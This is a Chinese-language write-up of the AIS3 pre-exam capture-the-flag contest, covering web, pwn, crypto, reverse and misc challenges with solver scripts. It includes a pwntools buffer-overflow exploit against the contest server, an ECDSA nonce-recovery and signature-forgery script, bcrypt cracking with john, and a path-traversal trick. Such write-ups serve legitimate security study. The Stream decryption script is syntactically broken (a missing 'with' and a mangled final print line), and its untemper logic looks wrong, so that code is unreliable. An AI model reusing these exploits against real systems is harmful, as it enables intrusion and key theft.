# Summary

這是第二年打 pre-exam，拿到 71 名，比去年進步 30 幾名。在逆向的部分有進步一點，並且能解出幾題密碼學



---

# Welcome
* Tag：`Misc`

1. 照打就拿到了



---

# Login Screen 1

* Tag：`Web` `Easy`

1. 看原始碼



2. 裡面創建一個 `users.db`，可以從 url 那邊下載，內容如下



3. 顯然是用 bcrypt 加密，那用 john 破解看看



4. 解出帳密 `admin:admin`，登入後輸入 2FA Code 就看到 flag 了



---

# Welcome to the World of Ave Mujica🌙

* Tag：`Pwn` `Easy`

1. 先用 IDA 分析看看，有 BOF



2. 檢查保護機制，感覺是一般的 buffer overflow



3. 他會接收使用者提供的輸入，但回傳值是 unsigned，所以可以輸入 `-88` 這種數字來擴大 BOF 長度



4. 用 pwndbg 測試，確定 payload 注入成功



5. 執行遠端 exploit

```python
from pwn import *

context.arch = 'amd64'
# r = process('./chal')
r = remote('chals1.ais3.org', 60028)

welcome_ave_mujica = 0x401256   # win

payload = flat(
    b'a' * 168,
    welcome_ave_mujica
)

r.sendlineafter(b'?', b'yes')
# gdb.attach(r)
r.sendlineafter(b':', b'-80')   # unsigned = 160 bytes
r.sendlineafter(b':', payload)

r.interactive()
```

6. 來到 Ave Mujica 的世界就看到 flag 了



---

# Stream

* Tag：`Crypto`

解密流程：
1. 逐行枚舉 256 個可能，找到唯一能讓(cipher XOR sha512(byte)) 成為**完全平方**的 byte，進而恢復 b_i
2. 把每個 b_i 拆成 8 個 32-bit 整數（640 個）。前 624 個可重建 `MT19937` 狀態
3. 逆 temper，組成 random.Random 的 state=(3, tuple, 624)
4. 跳過先前 80 次 `getrandbits(256)` 後，再取一次，得到 b_flag

```python
from hashlib import sha512
from math import isqrt
import random
import re
import sys

OUTFILE = "output.txt"

# load cipher
def load_ciphertexts(path: str):
    open(path, "r", encoding="utf-8") as f:
        lines = [ln.strip() for ln in f if ln.strip()]
    return lines[:-1], lines[-1]

# calculate sha512(bytes([b])) → 64-byte digest (int)
def build_sha_map():
    return {
        b: int.from_bytes(sha512(bytes([b])).digest(), "big")
        for b in range(256)
    }

# recover 256-bit b_i
def recover_bi_list(cipher_hex_list, sha_map):
    bi_list = []
    for idx, ci_hex in enumerate(cipher_hex_list, 1):
        ci = int(ci_hex, 16)
        for byte_val, ai in sha_map.items():
            x = ci ^ ai           # should = b_i ** 2
            root = isqrt(x)
            if root * root == x:  # check square
                bi_list.append(root)
                break
    return bi_list

def split_to_words(bi_list):
    words = []
    for bi in bi_list:
        for i in range(8):
            shift = (7 - i) * 32
            words.append((bi >> shift) & 0xFFFFFFFF)
    return words

def untemper(y):
    y ^= y >> 18
    y &= 0xFFFFFFFF
    y ^= (y << 15) & 0xEFC60000
    y &= 0xFFFFFFFF
    for _ in range(5):
        y ^= (y << 7) & 0x9D2C5680
        y &= 0xFFFFFFFF
    y ^= y >> 11
    y ^= y >> 11
    return y & 0xFFFFFFFF

# use 624 reverse-temper number recover  random.Random state
def build_prng_state(words):
    if len(words) < 624:
        sys.exit("[!] words isn't enough (624)")
    state_624 = tuple(untemper(w) for w in words[:624])
    return (3, state_624 + (624,), None)
  
def main():
    cipher_list, flag_cipher_hex = load_ciphertexts(OUTFILE)
    sha_map = build_sha_map()

    # recover PRNG
    bi_list = recover_bi_list(cipher_list, sha_map)
    words = split_to_words(bi_list)
    rnd = random.Random()
    rnd.setstate(build_prng_state(words))

    for _ in range(80):
        rnd.getrandbits(256)

    # generate 81th kerstream
    b_flag = rnd.getrandbits(256)
    c_flag = int(flag_cipher_hex, 16)
    flag_int = c_flag ^ (b_flag ** 2)
    flag_bytes = flag_int.to_bytes((flag_int.bit_length() + 7) // 8, "big")
  
    # grep flag
    m = re.search(rb"AIS3\{.*?\}", flag_bytes)
    if m:
        print("[*] Recovered flag:", m.group(0).decode())printable.decode(errors="ignore"))
```

---

# Ramen CTF

* Tag：`Misc`

1. 看到圖片就想用 binwalk 看，但沒東西

2. 題目說 flag 是 店家+品項，發現圖片裡有**發票條碼**能掃



3. 從碗的外觀可以發現是**蝦拉麵**，但是店名不對
4. 於是複製地址去查查看，是**樂山溫泉拉麵**

---

# web flag checker

* Tag：`Misc` `Easy`

1. 這題就只給了輸入框，但亂輸入一些東西是沒反應
2. F12 看看有 Web Assemaly `index.wasm`，拿去 [decompile](https://github.com/WebAssembly/wabt)



3. 可以看到驗證邏輯

```c

export function flagchecker(a:int):int { // func9
  var b:int = g_a;
  var c:int = 96;
  var d:int = b - c;
  g_a = d;
  d[22]:int = a;
  var e:int = -39934163;
  d[21]:int = e;
  var f:int = 64;
  var g:long_ptr = d + f;
  var h:long = 0L;
  g[0] = h;
  var i:int = 56;
  var j:long_ptr = d + i;
  j[0] = h;
  var k:int = 48;
  var l:long_ptr = d + k;
  l[0] = h;
  d[5]:long = h;
  d[4]:long = h;
  var m:long = 7577352992956835434L;
  d[4]:long = m;
  var n:long = 7148661717033493303L;
  d[5]:long = n;
  var o:long = -7081446828746089091L;
  d[6]:long = o;
  var p:long = -7479441386887439825L;
  d[7]:long = p;
  var q:long = 8046961146294847270L;
  d[8]:long = q;
  var r:int = d[22]:int;
  var s:int = 0;
  var t:int = r != s;
  var u:int = 1;
  var v:int = t & u;
  if (eqz(v)) goto B_c;
  var w:int = d[22]:int;
  var x:int = f_n(w);
  var y:int = 40;
  var z:int = x != y;
  var aa:int = 1;
  var ba:int = z & aa;
  if (eqz(ba)) goto B_b;
  label B_c:
  var ca:int = 0;
  d[23]:int = ca;
  goto B_a;
  label B_b:
  var da:int = d[22]:int;
  d[7]:int = da;
  var ea:int = 0;
  d[6]:int = ea;

  loop L_e {
    var fa:int = d[6]:int;
    var ga:int = 5;
    var ha:int = fa < ga;
    var ia:int = 1;
    var ja:int = ha & ia;
    if (eqz(ja)) goto B_d;
    var ka:int = d[7]:int;
    var la:int = d[6]:int;
    var ma:int = 3;
    var na:int = la << ma;
    var oa:long_ptr = ka + na;
    var pa:long = oa[0];
    d[2]:long = pa;
    var qa:int = d[6]:int;
    var ra:int = 6;
    var sa:int = qa * ra;
    var ta:int = -39934163;
    var ua:int = ta >> sa;
    var va:int = 63;
    var wa:int = ua & va;
    d[3]:int = wa;
    var xa:long = d[2]:long;
    var ya:int = d[3]:int;
    var za:long = f_i(xa, ya);
    var ab:int = d[6]:int;
    var bb:int = 32;
    var cb:int = d + bb;
    var db:int = cb;
    var eb:int = 3;
    var fb:int = ab << eb;
    var gb:long_ptr = db + fb;
    var hb:long = gb[0];
    var ib:int = za != hb;
    var jb:int = 1;
    var kb:int = ib & jb;
    if (eqz(kb)) goto B_f;
    var lb:int = 0;
    d[23]:int = lb;
    goto B_a;
    label B_f:
    var mb:int = d[6]:int;
    var nb:int = 1;
    var ob:int = mb + nb;
    d[6]:int = ob;
    continue L_e;
  }
  label B_d:
  var pb:int = 1;
  d[23]:int = pb;
  label B_a:
  var qb:int = d[23]:int;
  var rb:int = 96;
  var sb:int = d + rb;
  g_a = sb;
  return qb;
}
```

4. 撰寫解密腳本

```python
from struct import pack
const = [
    0x69282a668aef666a,
    0x633525f4d7372337,
    0x9db9a5a0dcc5dd7d,
    0x9833afafb8381a2f,
    0x6fac8c8726464726,
]
  
shifts = []
mask = (-39934163) & 0xFFFFFFFF       # 0xFD9EA72D

for i in range(5):
    shifts.append((mask >> (6*i)) & 0x3F)

def ror64(x, r):
    r &= 63
    return ((x >> r) | (x << (64 - r))) & 0xFFFFFFFFFFFFFFFF

flag = b''.join(pack('<Q', ror64(c, s))   # <Q = 8-byte little-endian
                for c, s in zip(const, shifts))

print(flag.decode())

# AIS3{W4SM_R3v3rsing_w17h_g0_4pp_39229dd}
```
---

# Random_RSA

* Tag：`Crypto` `Medium`

1. 檢查一下，可以發現參數太小



2. 撰寫解密腳本

```python
from sympy.ntheory import isprime, sqrt_mod
from math import gcd
import re, sys

# read output.txt
def load(name="output.txt"):
    pat = re.compile(r"(\w+)\s*=\s*(\d+)")
    vals = {}
    with open(name) as f:
        for line in f:
            m = pat.match(line)
            if m:
                vals[m.group(1)] = int(m.group(2))
    return vals

out = load()
h0, h1, h2 = out["h0"], out["h1"], out["h2"]
M  = out["M"]      # LCG modulus
n  = out["n"]
e  = out["e"]
c  = out["c"]

# 1. solve a, b
inv = pow((h1 - h0) % M, -1, M)
a = ((h2 - h1) % M) * inv % M
b = (h1 - a * h0) % M
inv_a1 = pow((a - 1) % M, -1, M)
inv2   = pow(2, -1, M)

print("[+] LCG's parameter recovered!")
n_mod_M = n % M

# 2. find p
def solve_for_k(k):
    Ak = pow(a, k, M)
    Bk = (b * ((Ak - 1) * inv_a1 % M)) % M
    Ainv = pow(Ak, -1, M)
    C = (Bk * Ainv) % M
    D = (-n_mod_M * Ainv) % M        # -n/A
    disc = (C*C - 4*D) % M
    roots = sqrt_mod(disc, M, all_roots=True)

    for r in roots:
        p = ((-C + r) * inv2) % M
        if p and n % p == 0:
            return p
    return None

print("[*] Find k …")
for k in range(1, 1500):
    p = solve_for_k(k)
    if p:
        q = n // p
        print(f"[+] Find prime k = {k}")
        break
else:
    sys.exit("[-] Failed, should increase k")

assert p * q == n and isprime(p) and isprime(q)

# 3. RSA decrypt
phi = (p-1)*(q-1)
d   = pow(e, -1, phi)
m_int = pow(c, d, n)
flag = m_int.to_bytes((m_int.bit_length()+7)//8, "big")

print(flag.decode())
# AIS3{1_d0n7_r34lly_why_1_d1dn7_u53_637pr1m3}
```

---

# AIS3 Tiny Server - Misc | Web

* Tag：`Misc` `Easy`

1. 先把機器打開，[這篇文章](https://ctftime.org/writeup/22050)說可以用 `//` 跳出來，然後就看到根目錄



2. 然後就能讀 flag 了



---

# AIS3 Tiny Server - Reverse

* Tag：`Rev` `Easy`
  
1. 先打開 IDA 看看，`sub_1E20` 感覺很可疑



2. 撰寫解密腳本

```python
import struct

key = b"rikki_l0v3"
seed = b"".join(struct.pack("<I", x) for x in [
    1480073267, 1197221906, 254628393, 920154,
    1343445007, 874076697, 1127428440, 1510228243,
    743978009, 54940467, 1246382110
]) + b"\x14"
  
flag = bytearray()
flag.append(0x33 ^ key[0])
for i in range(1, 45):
    flag.append(seed[i] ^ key[i % 10])

print(flag.decode())

# AIS3{w0w_a_f1ag_check3r_1n_serv3r_1s_c00l!!!}
```

---

# SlowECDSA

* Tag：`Crypto` `Hard`

1. 每次簽名的隨機數 k 是由 LCG 生成： $k_{i+1}=a\times k_{i}+c \text{ (mod n)}$
2. 簽名(r, s)：$s=k^{-1}(h+r\times d) \text{ (mod n)}$
3. 只有 2 組簽名代入 LCG 解出 $k_0$，代回去得到 $d$

```python
from pwn import *
from ecdsa.curves import NIST192p
import hashlib

a = 1103515245
c = 12345
G = NIST192p.generator
n = G.order()

def grab_example(io):
    io.sendlineafter(b'option:', b'get_example')
    io.recvuntil(b'msg:')
    io.recvline()
    r = int(io.recvline().split(b':')[1].strip(), 16)
    s = int(io.recvline().split(b':')[1].strip(), 16)
    return r, s

def modinv(x):
    return pow(x, -1, n)

# connect & get signatures
io = remote('chals1.ais3.org', 19000)
r0, s0 = grab_example(io)
r1, s1 = grab_example(io)

h = int.from_bytes(hashlib.sha1(b"example_msg").digest(), 'big') % n
num = (r0 * s1 * c - r0 * h + r1 * h) % n
den = (r1 * s0 - r0 * s1 * a) % n
k0  = num * modinv(den) % n
d = (s0 * k0 - h) * modinv(r0) % n
print(f"[+] private key d = {hex(d)}")

# combine give_me_flag signature
msg = b'give_me_flag'
h2  = int.from_bytes(hashlib.sha1(msg).digest(), 'big') % n
# 用 LCG 推得下一個 k
k1  = (a * k0 + c) % n
R   = k1 * G
r2  = R.x() % n
s2  = (modinv(k1) * (h2 + r2 * d)) % n
print("[+] signature ready")

# get flag
io.sendlineafter(b'option:', b'verify')
io.sendlineafter(b'message:', msg)
io.sendlineafter(b'r (hex):', hex(r2).encode())
io.sendlineafter(b's (hex):', hex(s2).encode())
io.interactive()
```

4. 執行腳本拿 Flag



---

# A_simple_snake_game

* Tag：`Rev` `Baby`
  
1. 玩了 5 分鐘還沒贏 :(
2. 打開 IDA decompile 看看
3. 猜測獲勝會顯示 flag，可以找找 Text 相關的函式，如 `SnakeGame::Screen::drawText()`



4. 感覺很像生出 flag 的邏輯，再搭配翻到的 `hex_array1`



5. 撰寫解密腳本
```python
from struct import unpack
# v14[10]
cipher_dword = [
  0xCE695081, 0xC1942BB5, 0xC38B136D, 0xDB0830C5, 0x774CB209,
  0xED101C59, 0x48EB2058, 0x6529FECF, 0x1D9D67F7, 0xDE102EA4
]
tail = b"\xFD\x66\x28"    # 3 bytes
cipher = b"".join(d.to_bytes(4,"little") for d in cipher_dword) + tail  # 43B

# hex_array1[43]
hex_array1 = bytes.fromhex('''
    c0 19 3a fd ce 68 dc f2 0c 47 d4 86 ab 57 39 b5
    3a 8d 13 47 3f 7f 71 98 6d 13 b4 01 90 9c 46
    3a c6 33 c2 7f dd 71 78 9f 93 22 55
''')

flag = bytes(c^k for c,k in zip(cipher, hex_array1)).rstrip(b"\0")
print(flag.decode())

# AIS3{CH3aT_Eng1n3?_0fcau53_I_bo_1T_by_hAnD}
```
